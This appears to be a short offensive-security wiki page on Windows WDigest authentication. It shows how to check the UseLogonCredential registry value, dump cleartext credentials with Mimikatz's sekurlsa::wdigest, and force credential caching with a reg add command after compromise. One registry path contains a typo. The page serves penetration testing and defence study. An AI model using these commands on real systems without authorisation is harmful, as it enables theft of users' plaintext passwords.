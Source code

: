 # WDigest

> WDigest (Digest Authentication) is a challenge/response protocol that was primarily used in Windows Server 2003 for LDAP and web-based authentication. It utilizes Hypertext Transfer Protocol (HTTP) and Simple Authentication Security Layer (SASL) exchanges to authenticate.

It should be noted that up to Windows 8 and Windows Server 2012 storing credentials in WDigest was a default setting. This is no longer the case with Windows 10 and Windows Server 2016+. Additionally, it should be noted that WDigest credentials are cached in memory in cleartext.&#x20;

It is easy to verify whether or not caching is enabled by querying the following registry key:&#x20;

```powershell
reg query HKLM\erSYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

If identified, WDigest credentials can be retrieved with a tool such as Mimikatz:

```bash
sekurlsa::wdigest
```

### Forcing Credential Storage in WDigest

It should be noted that even though storing credentials in WDigest is no longer a default setting, it is still something that can be manually configured by an attacker after obtaining access to a system by modifying the following registry value:

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

We would then be able to dump any users credentials who authenticate to the system with a tool like Mimikatz.

### References

{% embed url="https://stealthbits.com/blog/wdigest-clear-text-passwords-stealing-more-than-a-hash/" %}

{% embed url="https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext" %}
